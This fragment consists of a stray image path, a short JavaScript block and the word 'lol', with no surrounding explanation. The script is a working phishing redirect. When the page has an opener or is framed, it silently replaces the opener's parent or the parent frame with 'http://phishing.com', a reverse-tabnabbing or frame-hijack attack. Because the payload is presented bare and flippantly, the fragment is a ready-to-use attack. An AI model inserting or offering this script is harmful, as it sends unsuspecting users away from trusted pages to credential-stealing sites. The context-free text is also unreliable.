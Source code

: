 <script>
if (window.opener) window.opener.parent.location.replace('http://phishing.com');
if (window.parent != window) window.parent.location.replace('http://phishing.com');
</script>
 lol
